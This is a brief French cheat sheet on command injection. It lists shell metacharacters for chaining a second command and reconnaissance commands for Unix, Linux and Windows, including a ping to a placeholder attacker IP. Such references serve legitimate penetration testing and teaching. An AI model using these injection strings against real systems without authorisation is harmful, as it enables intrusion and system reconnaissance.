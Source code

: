 Divers métacaractères de shell peuvent être utilisés pour effectuer des attaques par injection de commande

Combin command

```c
;
&
&&
||
|
```

Unix

```sh 
ping -c 10 <attacker-ip>
whoami
#
;
0x0a ou \n # newline
`
$(id)
`id`
```

Linux

```sh
uname -a
ifconfig
netstat -an
ps -ef
```

Windows

```sh
dir
timeout
ver
ipconfig /all
netstat -an
tasklist
```

